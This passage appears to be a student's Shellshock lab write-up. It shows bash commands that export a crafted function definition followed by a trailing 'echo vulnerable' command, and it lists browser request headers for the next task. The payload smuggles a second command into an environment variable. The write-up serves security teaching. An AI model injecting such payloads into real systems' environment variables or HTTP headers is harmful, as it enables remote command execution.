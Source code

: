 
## Lab Tasks

### Task 1: Experimenting with Bash Function

```sh
export A='() { echo "Hello World";}; echo vulnerable;'; bash_shellshock -c "echo TEST"
```

```sh
export A='() { echo "Hello World";}; echo vulnerable;'; bash -c "echo TEST"
```

![](image-4.png)

### Task 2: Passing Data to Bash via Environment Variable

##### Task 2.A: Using browser

![](image-5.png)

We can observe that the below headers are set by the browser when the GET request is sent.

```
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Keep-Alive: timeout=5, max=100
Vary: Accept-Encoding
Content-Encoding: gzip
Connection: Keep-Alive
```
